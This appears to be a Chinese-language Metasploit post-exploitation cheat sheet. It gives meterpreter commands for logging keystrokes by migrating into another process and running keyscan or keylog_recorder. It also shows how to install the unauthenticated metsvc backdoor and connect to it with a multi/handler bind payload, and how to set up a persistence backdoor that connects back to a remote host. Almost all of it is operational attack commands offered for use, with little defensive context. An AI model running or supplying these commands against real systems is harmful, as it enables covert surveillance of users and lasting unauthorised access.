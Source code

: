 ### MSF编码器

```

```


## 通信维护

### Keylogger ❖

不访问硬盘的情况下捕捉键盘输入

```
meterpreter > ps
meterpreter > migrate 768
meterpreter > getpid
meterpreter > keyscan_start
meterpreter > keyscan_dump
```

记录取决于迁移的进程

另一种是使用Meta的后渗透模块：

```
meterpreter > ps
meterpreter > migrate 768
meterpreter > run post/windows/capture/keylog_recorder  
```

### Meterpreter 后门 ❖

`metsvc` 后门

注意metsvc不需要任何验证，现实情况下需要修改成需要验证或者设置防火墙

```
meterpreter > run metsvc
```

使用 `exploit/multi/handler` 模块，配上 `windows/metsvc_bind_tcp` Payload 来连接metsvc服务

```shell
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/metsvc_bind_tcp
msf exploit(handler) > set LPORT 31337
msf exploit(handler) > set RHOST 192.168.1.104
msf exploit(handler) > show options
msf exploit(handler) > exploit
```

### 持续后门 ❖

```shell
meterpreter > run persistence -h
# example:
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
```
